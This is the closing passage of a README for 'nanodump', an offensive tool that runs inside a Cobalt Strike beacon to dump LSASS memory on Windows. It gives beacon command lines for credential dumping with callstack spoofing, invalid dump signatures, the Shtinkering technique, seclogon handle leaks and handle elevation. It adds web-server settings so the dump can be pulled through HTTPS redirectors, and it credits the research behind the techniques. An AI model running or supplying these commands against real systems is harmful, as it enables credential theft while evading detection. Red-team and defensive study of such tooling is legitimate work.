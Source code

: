 Open a handle to LSASS with an spoofed callstack and download the minidump with an invalid signature:
```
beacon> nanodump --spoof-callstack
```

Use the Shtinkering techinque:
```
beacon> nanodump --shtinkering
```

Obtain a handle using seclogon leak local and create the dump using the Shtinkering techinque:
```
beacon> nanodump --seclogon-leak-local --shtinkering
```

Obtain a handle with low privs and elevate it using _elevate handle_:
```
beacon> nanodump --elevate-handle
```

Obtain a handle with low privs using a spoofed callstack and elevate it using _elevate handle_:
```
beacon> nanodump --elevate-handle --spoof-callstack
```

Duplicate an existing low priv handle and elevate it using _elevate handle_:
```
beacon> nanodump --duplicate-elevate
```

<h2 id="redirectors">5. HTTPS redirectors</h2>

If you are using an HTTPS redirector (as you should), you might run into issues when downloading the dump filessly due to the size of the requests that leak the dump.  
Increase the max size of requests on your web server to allow nanodump to download the dump.

#### NGINX
```
location ~ ^...$ {
    ...
    client_max_body_size 50M;
}
```
#### Apache2
```
<Directory "...">
    LimitRequestBody  52428800
</Directory>
```

## Credits
- [skelsec](https://twitter.com/skelsec) for writing [minidump](https://github.com/skelsec/minidump), which was crucial for learning the minidump file format.
- [freefirex](https://twitter.com/freefirex2) from [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF) at Trustedsec for many cool tricks for BOFs
- [Jackson_T](https://twitter.com/Jackson_T) for [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2)
- [BillDemirkapi](https://twitter.com/BillDemirkapi) for [Process Forking](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)
- [Antonio Cocomazzi](https://twitter.com/splinter_code) for [Abusing leaked handles to dump LSASS memory](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html) and [Racing for LSASS dumps](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-3.html)
- [xpn](https://twitter.com/_xpn_) for [Exploring Mimikatz - Part 2 - SSP](https://blog.xpnsec.com/exploring-mimikatz-part-2/)
- [Matteo Malvica](https://twitter.com/matteomalvica) for [Evading WinDefender ATP credential-theft: a hit after a hit-and-miss start](https://www.matteomalvica.com/blog/2019/12/02/win-defender-atp-cred-bypass/)